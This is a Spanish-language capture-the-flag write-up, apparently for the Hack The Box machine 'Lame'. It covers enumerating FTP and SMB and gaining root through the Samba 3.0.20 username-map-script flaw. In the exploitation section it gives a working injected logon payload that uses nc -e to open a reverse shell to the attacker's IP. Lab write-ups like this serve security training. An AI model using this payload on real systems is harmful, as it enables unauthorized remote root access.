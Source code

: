 ----

----
![[cc2f35f31baac4bb3bc5e0f7ad6a9df5.png]]

🧩 **Dificultad**: Easy (Linux)  
🎯 **Dirección IP**: `10.10.10.3`  
🛠️ **Modo**: Guided Mode

## 🔍 **Fase 1: Enumeración**

### ⚡ Escaneo Nmap

```bash
nmap -sS --top-ports 1000 10.10.10.3
```

![[dbf2a0bf1f7bead95039136c6fa1e9c3.png]]

Comprobamos puertos **abiertos** y vemos lo siguiente:

```bash
- 21/tcp → FTP
    
- 22/tcp → SSH
    
- 139 y 445/tcp → SMB (samba)
```

Luego usamos escaneo con scripts:

```bash
nmap -sS -sC -sV --top-ports 1000 10.10.10.3
```

![[fd1a116218a82e2d6c4669bbfaaeb1d7.png]]

Servicios identificados:

- 🎯 **FTP**: vsftpd 2.3.4 con login anónimo habilitado.
    
- 🔐 **SSH**: OpenSSH 4.7p1
    
- 📁 **SMB**: Samba 3.0.20 (en puertos 139 y 445)

### 📎 Enumeración FTP

Probamos el acceso anónimo al FTP:

```bash
ftp 10.10.10.3
Name: anonymous
Password: (enter)
```

![[0d7407bf0e9cafd7922661937af96e4d.png]]

Resultado: no hay contenido útil en el FTP.


### 📁 Enumeración SMB

Enumeramos los recursos compartidos SMB:

```bash
smbclient -L //10.10.10.3 -N
```

![[04cdb05aaaf68d4f56169088be86a597.png]]

Recursos mostrados:

- `print$`, `tmp`, `opt`, `IPC$`, `ADMIN$`

Nos conectamos al recurso `tmp`:


![[fd15d75bab37ffcc0cbc110a22280bed.png]]

Al listar su contenido:

```bash
dir
```

vemos archivos del sistema como `.X11-unix`, `vmware-root`, etc, pero no le haremos caso.


## 💣 **Fase 2: Explotación – CVE-2007-2447 (Samba)**

Samba 3.0.20 es vulnerable a ejecución de comandos a través del campo `username` si se usa `username map script` en su configuración.

📌 Verificado con searchsploit:

```bash
searchsploit samba 3.0.20
```

![[b8804b2f4cc0b45ccb59773f670a2775.png]]


Consultamos el exploit directamente:

```bash
searchsploit -x unix/remote/16320.rb
```

![[389afa6d93c9100fc1ca8b0718b509fb.png]]

En el código vemos que el exploit inyecta el payload en la variable `username`, usando una línea como:

![[b1dc0f80a9500b495f06488cb1181684.png]]

```bash
username = "/=`nohup " + payload.encoded + "`"
```

Esto confirma que podemos pasar comandos directamente por el campo `username`.

### ✅ PoC: Reverse Shell directamente tras login

Tras comprobar que se puede inyectar comandos por el campo `username`, nos conectamos directamente al recurso `tmp`:

```bash
smbclient //10.10.10.3/tmp -N
```

Y luego ejecutamos el siguiente payload desde la consola interactiva de `smbclient` :

![[314810ec21c24265d1b535c768699279.png]]


```bash
logon "/=`nohup nc -e /bin/sh 10.10.16.84 4444`"
```

![[354866c9b5d6419e66d602c9c6298152.png]]

Se observa que el reverse shell **sí se conecta** correctamente:

![[5689211c325ed2aeb244a93fdb9a8ac9 1.png]]

![[0dcc249faa5c400a0924f718b8b0d8c4.png]]

Esto indica que, aunque el comando `logon` parece fallar por timeout, **la conexión inversa llega** y se puede trabajar con la shell abierta.

### ✅ Shell funcional y obtención de flags

Una vez obtenida la shell de root:

![[e052024d4baa37ccd06b6173fd2ff14a.png]]

## 📚 Conclusiones

- El acceso FTP anónimo no ofrece nada útil.
    
- El share `tmp` en SMB permite ejecutar comandos gracias a una vulnerabilidad en `username map script`.
    
- Basta con entrar anónimamente y usar `logon "payload"` desde dentro del cliente interactivo.
    
- Aunque el payload con `nc -e` muestre `NT_STATUS_IO_TIMEOUT`, **la conexión puede ser válida** si se observa con `nc -lvnp`.
    
- Acceso root sin autenticación → se capturan ambas flags directamente.


## 📁 Recursos y exploits

- ExploitDB → [16320.rb](https://www.exploit-db.com/exploits/16320)
    
- Blog técnico → [amriunix CVE-2007-2447](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    
- Shell cheat sheet → [Pentestmonkey Reverse Shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


-----------
## 🧱 Task adicional:

*Con una shell como root, podemos investigar por qué falló el exploit de VSFTPD. Nuestro escaneo inicial con `nmap` mostró cuatro puertos TCP abiertos. Pero si ejecutamos `netstat -tlnp` en la máquina víctima, veremos que hay **muchos más puertos escuchando**, incluso en `0.0.0.0` y en la IP externa de la máquina, por lo que **deberían ser accesibles desde fuera**.  

*¿Qué debe de estar bloqueando la conexión a estos puertos?*

![[fb1b7cb824aac09c31fcc1398de50c0f.png]]

## ¿Por qué falla el exploit de vsftpd?

Aunque vsftpd 2.3.4 es una versión con backdoor conocido, **el exploit no funciona en esta máquina**. La razón puede deberse a que hay otros puertos abiertos **localmente**, pero no accesibles desde el exterior.

### ✅ Respuesta correcta: `firewall`

Aunque hay puertos en escucha en la máquina víctima, **desde fuera** sólo vemos 4 porque el **firewall (como `iptables`) los está filtrando**. Es decir: están técnicamente abiertos, pero no accesibles remotamente.

Este firewall local puede estar limitando las conexiones entrantes desde el exterior, impidiendo la explotación de ciertos servicios como vsftpd.


## 🧪 Task 10: ¿Qué puerto se abre al activar el backdoor de VSFTPD?

Cuando se activa el backdoor de **vsftpd 2.3.4**, comienza a escuchar en el puerto:

![[3397092759f4b9b36e85ae73304f598b.png]]

Como nos da la info en el link de la web de la tarea anterior: 

https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

![[659f498d76f31e9d9ba6dc3316d5502c.png]]